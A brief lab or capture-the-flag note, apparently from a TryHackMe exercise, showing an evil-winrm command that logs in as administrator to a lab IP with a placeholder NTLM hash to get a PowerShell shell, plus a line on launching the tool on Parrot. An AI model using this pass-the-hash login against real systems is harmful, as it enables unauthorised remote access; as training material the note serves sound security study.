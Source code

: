 ```
evil-winrm -u administrator -H inserthash -i 10.10.68.12

```


We can us this to get a PS shell in target system using a hash < inserthash > we have found 


---


To use evil-winrm in Parrotbox


```
~/Desktop/THM/evil-winrm -  sudo ruby evil-winrm.rb
```

